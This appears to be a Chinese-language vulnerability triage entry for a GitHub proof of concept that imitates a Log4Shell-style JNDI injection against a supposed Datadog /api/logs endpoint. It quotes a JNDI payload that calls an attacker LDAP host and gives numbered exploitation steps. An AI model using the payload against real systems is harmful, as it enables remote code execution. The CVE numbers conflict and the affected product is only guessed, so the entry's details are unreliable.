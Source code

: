 ## CVE-2025-666666-Datadog4Shell-JNDI注入

**漏洞编号:** CVE-2025-66666

**漏洞类型:** JNDI注入

**影响应用:** Datadog（推测）

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** 未知，需根据实际环境判断

**利用条件:** 目标系统需要存在JNDI注入点，且可访问LDAP服务器

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

该漏洞利用代码尝试模拟Log4Shell类型的JNDI注入攻击。攻击者通过向/api/logs endpoint发送包含恶意JNDI payload的POST请求，触发目标系统（推测为Datadog相关组件，因漏洞名称包含Datadog）尝试通过LDAP协议连接到攻击者控制的服务器。如果目标系统使用的Java版本和配置允许，攻击者可以利用此漏洞执行任意代码。

有效性评估：
  *  代码中使用了`f"{target_url}/api/logs"`，意味着漏洞存在于目标URL的`/api/logs`接口。
  *  payload使用了`${{jndi:ldap://malicious.server/{payload}}}``的JNDI注入格式。
  *  User-Agent设定为`ExploitBot/1.0`，表明这是一个漏洞利用程序。

  由于没有确切的目标应用的信息，该POC的有效性取决于目标系统是否存在类似的JNDI注入漏洞。

投毒风险评估：
  *  代码逻辑简单，主要是发送包含JNDI payload的HTTP POST请求，没有发现明显的恶意操作。
  *  存在通过连接恶意LDAP服务器进行攻击的风险。
  *  `README.md`文件中提到“CATs will rule the world”，这可能暗示作者的一些个人倾向，但不能直接证明存在投毒行为。

  综合来看，主要风险是LDAP服务器被攻击者控制，并用于传递恶意payload，而不是POC代码本身包含恶意逻辑，因此判断为投毒风险较低，约为10%。

利用方式：
  1. 确定目标系统是否存在JNDI注入漏洞（类似Log4Shell）。
  2. 使用该POC代码，替换`<target_url>`为目标系统的URL，`<payload>`为攻击者控制的LDAP服务器地址和所需执行的命令或恶意代码的payload。
  3. 运行POC代码，如果目标系统存在漏洞且配置不当，攻击者可以通过LDAP服务器执行任意代码。

**项目地址:** [anderruiz/CVE-2025-666666](https://github.com/anderruiz/CVE-2025-666666)

**漏洞详情:** [CVE-2025-66666](https://nvd.nist.gov/vuln/detail/CVE-2025-66666)